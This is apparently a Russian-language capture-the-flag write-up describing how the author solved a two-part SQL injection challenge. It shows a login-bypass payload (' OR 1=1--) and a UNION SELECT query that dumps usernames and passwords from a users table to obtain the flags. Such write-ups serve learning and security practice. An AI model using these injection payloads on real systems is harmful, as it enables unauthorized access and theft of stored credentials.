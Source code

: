 ## WriteUP
- Для начала посмотрим исходный код элемента, и увиди там подсказку.

<img width="328" alt="Снимок экрана 2024-09-16 в 15 33 11" src="https://github.com/user-attachments/assets/401016f7-f372-4607-ba6f-1a161ad77e14">

- Читаем про SQL injection и пробуем самый простой шаблон, поле пароля можно оставить пустым 
```
' OR 1=1--
или
admin' or 1=1--
```
<img width="1512" alt="Снимок экрана 2024-09-16 в 15 37 13" src="https://github.com/user-attachments/assets/0a739a19-92c1-45ec-9a57-d563079ee4a7">
# Part 2 
- Из условий ясно что есть второй флаг и та же инъекция, значит надо делать более сложный запрос. Из первой части понятно что полей выводится 2 и второе это не пароль и это сильно помогает нам. Составим UNION запрос 

```
' UNION SELECT username, password FROM users--
```
<img width="1512" alt="Снимок экрана 2024-09-16 в 15 40 15" src="https://github.com/user-attachments/assets/69bc9dc4-2417-49a7-b564-3d8c63bbd3fb">
- А вот и флаг
